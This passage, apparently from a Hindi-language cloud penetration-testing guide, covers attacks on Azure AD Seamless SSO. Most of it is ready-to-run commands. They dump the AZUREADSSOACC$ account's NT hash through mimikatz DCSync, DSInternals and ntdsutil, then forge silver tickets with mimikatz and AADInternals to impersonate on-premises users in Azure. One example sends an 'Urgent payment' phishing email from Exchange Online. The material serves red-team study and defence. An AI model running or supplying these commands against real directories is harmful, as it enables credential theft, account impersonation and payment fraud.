 उपयोगकर्ता **`AZUREADSSOACC$` का **पासवर्ड** कभी नहीं बदलता**। इसलिए, एक डोमेन एडमिन **इस खाते के हैश को समझौता** कर सकता है, और फिर इसका उपयोग **सिल्वर टिकट बनाने** के लिए कर सकता है ताकि **किसी भी ऑन-प्रेम उपयोगकर्ता के साथ** Azure से कनेक्ट किया जा सके:
```bash
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
> [!NOTE]
> वर्तमान जानकारी के साथ, आप पहले बताए गए अनुसार **SeamlessPass** टूल का उपयोग करके डोमेन में किसी भी उपयोगकर्ता के लिए azure और entraid टोकन प्राप्त कर सकते हैं।
> आप `AZUREADSSOACC$` खाते के बजाय जिस पीड़ित का आप अनुकरण करना चाहते हैं, उसके पासवर्ड का हैश प्राप्त करने के लिए पिछले तकनीकों (और अन्य) का भी उपयोग कर सकते हैं।

#### Silver Tickets बनाना

हैश के साथ, आप अब **silver tickets** उत्पन्न कर सकते हैं:
```bash
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:autologon.microsoftazuread-sso.com /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
### Using Silver Tickets with Firefox
